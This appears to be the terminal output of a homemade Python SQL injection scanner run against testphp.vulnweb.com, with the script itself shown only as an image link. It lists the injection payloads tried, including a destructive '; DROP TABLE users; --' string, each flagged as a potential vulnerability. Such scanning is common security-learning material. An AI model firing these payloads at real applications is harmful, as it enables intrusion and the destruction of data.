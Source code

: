 # Output

(venv) aheaheeralaleralal@AHEERALALs-MacBook-Pro Python % /Users/aheaheeralaleralal/Desktop/Python/venv/bin/python /Users/aheaheeralaleralal/Desktop/Python/
SQLi.py
Enter the URL of the web application to test: http://testphp.vulnweb.com/search.php?test=query
Enter the parameter to inject into (e.g., 'username', 'search'): searchFor
Enter HTTP method (GET/POST): POST
[+] Potential SQL injection vulnerability found with payload: ' OR 1=1 --
    Response contains SQL error or unexpected message
    Test URL: http://testphp.vulnweb.com/search.php?test=query
[+] Potential SQL injection vulnerability found with payload: ' OR 'a'='a' --
    Response contains SQL error or unexpected message
    Test URL: http://testphp.vulnweb.com/search.php?test=query
[+] Potential SQL injection vulnerability found with payload: '; DROP TABLE users; --
    Response contains SQL error or unexpected message
    Test URL: http://testphp.vulnweb.com/search.php?test=query
[+] Potential SQL injection vulnerability found with payload: ' UNION SELECT null, null, null --
    Response contains SQL error or unexpected message
    Test URL: http://testphp.vulnweb.com/search.php?test=query
[+] Potential SQL injection vulnerability found with payload: ' AND 1=2 --
    Response contains SQL error or unexpected message
    Test URL: http://testphp.vulnweb.com/search.php?test=query
